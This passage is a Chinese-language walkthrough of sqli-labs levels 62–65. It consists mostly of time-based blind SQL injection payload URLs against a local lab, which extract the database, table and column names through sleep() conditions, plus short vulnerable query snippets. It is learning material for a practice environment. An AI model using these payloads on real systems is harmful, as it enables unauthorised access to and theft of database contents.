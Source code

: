 Payload: 

http://127.0.0.1/sqli-labs/Less-62?id=1') and if(1=1,sleep(5),1) -- - 

http://127.0.0.1/sqli-labs/Less-62?id=1') and if(database()='challenges',sleep(5),1) -- - 

猜测第一个数据的字母 //chr(78)=N 

http://127.0.0.1/sqli-labs/Less-62?id=1') and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))=78,sleep(5),1) -- - 

http://127.0.0.1/sqli-labs/Less-62?id=1') and if(left((select group_concat(table_name) from information_schema.tables where table_schema=database()),10)='NW9K6F9XJY',sleep(5),1) -- - 

猜测第一个字段的字母 //chr(105)=i 

http://127.0.0.1/sqli-labs/Less-62?id=1') and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='NW9K6F9XJY'),1,1))=105,sleep(5),1) -- - 







##第63关 

同62，单引号闭合 

http://127.0.0.1/sqli-labs/Less-63?id=1' and if(database()='challenges', sleep(5),1) -- - 



##第64关 

$sql="SELECT * FROM security.users WHERE id=(($id)) LIMIT 0,1”; 



http://127.0.0.1/sqli-labs/Less-64?id=1)) and if(database()='challenges', sleep(5),1) -- - 





##第65关 

$id = '"'.$id.'"'; 

$sql="SELECT * FROM security.users WHERE id=($id) LIMIT 0,1”; 

Payload: 

http://127.0.0.1/sqli-labs/Less-65?id=1") and if(database()='challenges', sleep(5),1) -- - 



第66关后，没有了。 



#Referer

https://blog.csdn.net/qq_41420747/article/details/81836327

https://blog.csdn.net/harrywade/article/details/81842491

https://github.com/lcamry/sqli-labs

https://github.com/WangYihang/sqli-labs



#后记

做完后，发现有些payload 并没有完全按照源码的意图去fuzzing

基于漏洞的生命周期（原理、利用、加固、绕过），还是应该多思考基础原理，尤其是底层数据库的一些特性。

